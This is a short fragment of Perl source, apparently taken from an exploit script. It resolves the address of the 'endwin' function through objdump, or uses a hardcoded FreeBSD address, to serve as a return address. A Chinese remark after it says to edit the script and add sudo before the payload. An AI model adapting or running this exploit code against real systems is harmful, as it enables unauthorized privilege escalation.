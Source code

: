 ```pl
	}
	#Possibility to add friends ^^
}

sub getendwin {
	if ($_[0] eq "linux") {
		my $n = $namez->[0];
		for (qx{objdump -d $n | grep endwin}) {
			$retaddr = $1, last if ($_ =~ m{(.*) <});
		}
		return($retaddr);
	}
	elsif ($_[0] eq "freebsd") {
		return("282c2990");
	}

}
```

需要修改 say 为 print，if else 也要修改，payload 前要家 sudo。
